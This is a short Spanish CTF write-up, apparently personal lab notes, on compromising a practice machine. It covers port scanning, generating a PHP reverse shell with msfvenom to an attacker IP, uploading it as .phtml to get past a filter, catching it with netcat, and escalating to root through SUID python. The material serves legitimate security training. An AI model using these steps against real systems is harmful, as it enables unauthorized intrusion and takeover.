 
Hacemos un reconocimiento básico con [[NMAP]]
`nmap -p- --open -sSCV  --min-rate 5000 -n -Pn 10.10.161.152 -oN ScanPorts.txt`

Encontramos levantado los puertos `22 SSH` y `80 HTTP` corriendo un servicio Apache.
Navegamos a la web del puerto `80`

Con [[DIRBUSTER]] Encontramos el directorio `/panel/index.php` en el cual se pueden subir archivos, probaremos a subir un archivo con una reverse shell `.php`

Creamos la shell con [[MSFVENOM]]
`msfvenom -p php/reverse_php LHOST=10.8.28.111 LPORT=443 -f raw > shell.php`

Lo subimos pero como no acepta `.php` lo cambiamos a `.phtml` una vez subido duirante el reconocimiento con [[DIRBUSTER]] encontramos el directorio `/uploads` navegamos a el y ejecutamos el archivo subido y nos ponemos en escucha con [[NETCAT]]
`nc -lvnp 443 `

Una vez que tenemos conexión la estabilizamos y hacemos el [[01. Tratamiento de la TTY]]
Navegando por los directorios hacia atrás encontramos en `/var/www` la primera flag del usuario.
Para la escalada de privilegios usamos ` find / -perm -4000 2>/dev/null` y vemos que aparece `/usr/bin/python`, en GTFobins podemos encontrar esta escalada, y obtendremos una shell como root y en el directorio `/root` encontramos la frag.
